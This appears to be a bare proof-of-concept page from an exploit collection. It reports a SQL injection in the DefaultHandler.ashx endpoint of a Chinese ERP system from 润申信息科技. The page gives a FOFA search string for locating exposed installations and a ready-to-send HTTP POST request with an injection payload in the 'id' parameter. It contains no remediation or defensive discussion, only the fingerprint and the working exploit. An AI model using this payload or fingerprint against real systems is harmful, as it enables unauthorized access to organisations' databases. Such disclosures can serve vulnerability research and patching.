 # 润申信息科技ERP系统DefaultHandler.ashx接口存在sql注入漏洞



## fofa

```yaml
body="PDCA/js/_publicCom.js"
```

## poc

```java
POST /ashx/DefaultHandler.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Connection: close
Content-Length: 115
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

action=GetDetail&status=300&id=1+and+%01(select+SUBSTRING(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123')),3,32))<0--
```

